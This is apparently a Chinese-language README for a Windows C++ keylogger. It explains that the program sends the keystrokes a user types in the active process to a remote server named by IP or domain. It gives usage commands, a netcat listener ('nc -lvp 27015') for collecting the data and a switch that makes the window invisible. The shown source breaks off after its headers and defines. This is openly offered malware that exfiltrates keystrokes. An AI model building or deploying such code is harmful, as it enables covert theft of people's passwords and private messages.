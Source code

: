 * 传入一个命令参数，为服务器的域名或者是IP地址。程序会将用户在正在使用的进程中的输入内容发送到服务器。

  输入：`keylog.exe 192.168.248.129`，或者是`keylog.exe www.baidu.com` 

* 在源码中，将默认端口修改为服务器监听的端口：

  ```cpp
  #define DEFAULT_PORT "27015"
  ```

  在服务器上进行监听

  ```shell	
  nc -lvp 27015
  ```

* 在源码中，可以选择窗口为（可见/不可见）

  ```cpp
  #define visible // (visible / invisible)
  ```

* 当服务器关闭监听的端口，客户端会看到如下提示：

  ```shell
  [ERROR] send failed with error: 10053
  
  [WARING] The server has stopped listening on the port! The program will exit.
  ```

**环境要求：**以下代码在Visual Studio 2019 16.10 ，C++ 语言标准：默认(ISO C++14 标准)测试通过。

**缺点：**没有将WINSOCK功能进行单独封装。

参考：[ShowWindow function (winuser.h)](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow)、[GetAsyncKeyState function (winuser.h)](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getasynckeystate)、[Windows 经典示例](https://github.com/microsoft/Windows-classic-samples/tree/main)、[A simple keylogger for Windows, Linux and Mac](https://github.com/GiacomoLaw/Keylogger)。

```cpp
#define WIN32_LEAN_AND_MEAN


#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdlib.h>
#include <stdio.h>


// Need to link with Ws2_32.lib, Mswsock.lib, and Advapi32.lib
#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")

#define DEFAULT_BUFLEN 512
#define DEFAULT_PORT "27015"

#include <Windows.h>
#include <cstdio>
#include <fstream>
#include <iostream>
#include <sstream>
#include <time.h>
#include <map>

// defines whether the window is visible or not
// should be solved with makefile, not in this file
#define visible // (visible / invisible)
// defines which format to use for logging
// 0 for default, 10 for dec codes, 16 for hex codex
```